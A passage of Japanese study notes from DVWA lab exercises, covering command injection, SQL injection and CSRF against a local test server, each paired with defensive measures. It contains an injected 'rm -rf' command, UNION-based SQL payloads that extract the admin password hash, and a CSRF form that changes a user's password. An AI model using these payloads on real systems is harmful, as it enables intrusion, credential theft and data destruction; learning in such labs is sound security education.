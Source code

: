       ?>
      ```

    2. ファイルの削除
        ```bash
        ; rm -rf index.php
        ```

        出力結果がエラーとなった
        ```
        Not Found
        The requested URL /vulnerabilities/exec/ was not found on this server.

        Apache/2.4.25 (Debian) Server at localhost Port 80
        ```
- 防御手段
  ```
  特定文字のみ受け付けるようにする

  pingの実行コマンドをshell_exec()で組み立てる
  ```

### SQL インジェクション
- 攻撃
  1. 各テーブルのカラム確認 (passwordカラムの確認)
      ```sql
      ' union select table_name,column_name from information_schema.columns where table_schema = 'dvwa'#
      ```
  2. adminのパスワード取得
  ```sql
  ' union select user, password from dvwa.users where user = 'admin' #
  ```
  3. ハッシュをデコード
- 防御手段
  ```
  フロントエンドの入力フォームにValidationを導入する。

  バックエンドのエンドポイントにValidationを導入する。

  バックエンドのSQLコマンドを組み立て箇所でプレースホルダーを使用する。
  ```

### CSRF
- 攻撃
  1. ダミーサイトを作成
      ```html
      <form action="http://localhost/vulnerabilities/csrf?" method="GET">
        New password:<br />
        <input type="hidden" name="password_new" value="12345"><br />
        Confirm new password:<br />
        <input type="hidden" name="password_conf" value="12345"><br />
        <br />
        <input type="submit" value="Change" name="Change">
      </form>
      ```
  2. ダミーサイトへアクセスしてボタンクリック
- 防御手段
  ```
  csrf の token を form に含める

  cookie属性にSameSite=Laxを付与する
  ```
